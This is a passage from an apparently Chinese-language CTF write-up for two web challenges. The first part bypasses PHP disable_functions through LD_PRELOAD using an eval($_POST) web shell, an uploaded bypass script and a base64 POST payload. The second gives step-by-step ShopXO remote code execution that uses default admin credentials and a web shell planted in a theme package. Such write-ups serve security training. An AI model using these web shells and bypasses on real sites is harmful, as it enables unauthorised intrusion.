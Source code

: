 可以判度执行readflag读取flag内容，这时需要shell执行，即system(), exec(), shell_exec()等函数，但是自己试过后发现均被过滤，查看phpinfo();

```text
-------------------------------------------------------------------------------------------------------------------------------
disable_functions  |                                                                                                          |
-------------------------------------------------------------------------------------------------------------------------------
                    pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,    pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl
-------------------------------------------------------------------------------------------------------------------------------

均被过滤，可以采用 `LD_PRELOAD_FUNCTION` 绕过

首先连上蚁剑，使用 `eval($_POST[x])`(赛后才知道还要多加一层。。。)，编码器选择 `base64`

上传脚本，由于目录不可写，上传到 `/tmp`

之后采用 `require` 包含此文件，发现正常，再继续添加参数

```text
Ginkgo=cmVxdWlyZSgiL3RtcC9ieXBhc3NfZGlzYWJsZWZ1bmMucGhwIik7&cmd=/readflag&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

```text
example: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so

cmdline: /readflag > /tmp/xx 2>&1

output:
flag{650da2bc-722c-4df5-b603-73db96cee241}
```

### 老八小超市儿

> 一日三餐没烦恼，今天到超市买个老八小汉堡儿。既实惠，还管饱，你看这超市整滴行不行。 彳亍！

进入题目是一个电商模板，搜索漏洞，找到了全版本的rce方法

> 1. 访问默认后台，使用shopxo的默认账号密码进行登录：admin     shopxo
> 2. 在后台找到应用中心-应用商店-主题，然后下载默认主题。
> 3. 下载下来的主题是一个安装包，然后把你的🐎放到压缩包的`default/_static`目录下
> 4. 回到网页上，找到网站管理-主题管理-主题安装
> 5. 安装成功后，shell就可以用了

穿上shell后，用冰蝎连接（不知道为啥用蚁剑连会乱码）

在根目录看到 `flag flag.hint`，打开看到为假flag，但是得到了提示flag在 `/root/flag`，以及一个自动执行的 `auto.sh`
